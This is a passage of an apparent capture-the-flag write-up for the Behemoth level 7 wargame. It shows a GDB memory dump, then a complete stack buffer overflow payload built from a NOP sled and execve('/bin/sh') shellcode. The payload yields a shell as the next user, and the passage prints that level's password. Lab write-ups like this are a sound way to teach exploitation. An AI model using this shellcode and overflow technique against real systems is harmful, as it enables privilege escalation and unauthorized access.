 ```nasm
0xffffd7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd800:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd810:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd820:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd830:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd840:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd850:	0x90909090	0x90909090	0xc0319090	0x2f2f6850
0xffffd860:	0x2f686873	0x896e6962	0x89c189e3	0xcd0bb0c2
0xffffd870:	0x40c03180	0x000080cd	0x00000000	0x00000000
0xffffd880:	0x00000000	0x00000000	0x00000000	0x00000000
```

Now, let's choose a random address in the NOP sled like `0xffffd7e0`.

```nasm
(gdb) run $(python -c "print 528 * '\x41' + '\xe0\xd7\xff\xff' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /behemoth/behemoth7 $(python -c "print 528 * '\x41' + '\xe0\xd7\xff\xff' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
process 20467 is executing new program: /bin/dash
$
```

Awesome, let's quit GDB and try that...

```bash
behemoth7@behemoth:/behemoth$ ./behemoth7 $(python -c "print 528 * '\x41' + '\xe0\xd7\xff\xff' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
$ whoami
behemoth8
$ cat /etc/behemoth_pass/behemoth8
pheewij7Ae
```

Boom !